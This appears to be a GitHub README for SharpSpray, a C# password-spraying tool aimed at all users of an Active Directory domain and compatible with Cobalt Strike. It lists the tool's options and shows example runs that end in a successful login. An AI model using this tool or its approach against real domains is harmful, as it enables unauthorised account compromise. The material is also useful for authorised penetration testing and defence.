 # SharpSpray
This project is a C# port of my PowerSpray.ps1 script. SharpSpray a simple code set to perform a password spraying attack against all users of a domain and is compatible with Cobaltstrike.

https://github.com/jnqpblc/Misc-PowerShell/blob/master/PowerSpray.ps1

By default it will automatically generate the UserList from the domain.

By default it will automatically generate the PasswordList using the current date.

Be careful not to lockout any accounts.

```
SharpSpray.exe
      --Seeds [ A comma-separated list of passwords to as a seed to the internal list generator. Eg. Password,Welcome,Company ]
      --Passwords [ A comma-separated list of passwords to use instead of the internal list generator. Eg. Password1,Password19,Company19,Welcome19 ]
      --Delay [ The delay time between guesses in millisecounds. Eg. 300 ]
      --Sleep [ The number of minutes to sleep between password cycles. Eg. 15 ]

C:\Users\jnqpblc\Desktop>SharpSpray.exe --Sleep 15
[+] Successfully collected 42 usernames from Active Directory.
[*] The Lockout Threshold for the current domain is 10.
[*] The Min Password Length for the current domain is 10.
[+] Successfully generated a list of 64 passwords.
[*] Starting password spraying operations.
[*] Using a delay of 1000 milliseonds between attempts.
[*] Using password Winter19
^C

C:\Users\jnqpblc\Desktop>SharpSpray.exe --Seeds Password,Welcome,Company --Sleep 15
[+] Successfully collected 42 usernames from Active Directory.
[*] The Lockout Threshold for the current domain is 10.
[*] The Min Password Length for the current domain is 10.
[+] Successfully generated a list of 42 passwords.
[*] Starting password spraying operations.
[*] Using a delay of 1000 milliseonds between attempts.
[*] Using password Password19
^C

C:\Users\jnqpblc\Desktop>SharpSpray.exe --Passwords ItsNotWinter! --Sleep 15 --Delay 300
[+] Successfully collected 42 usernames from Active Directory.
[*] The Lockout Threshold for the current domain is 10.
[*] The Min Password Length for the current domain is 10.
[+] Successfully generated a list of 1 passwords.
[*] Starting password spraying operations.
[*] Using a delay of 300 milliseonds between attempts.
[*] Using password ItsNotWinter!
[+] Successfully authenticated with jnqpblc::ItsNotWinter!
[*] Completed all rounds with password ItsNotWinter!
[*] Now the script will sleep for 15 minutes.
^C
```
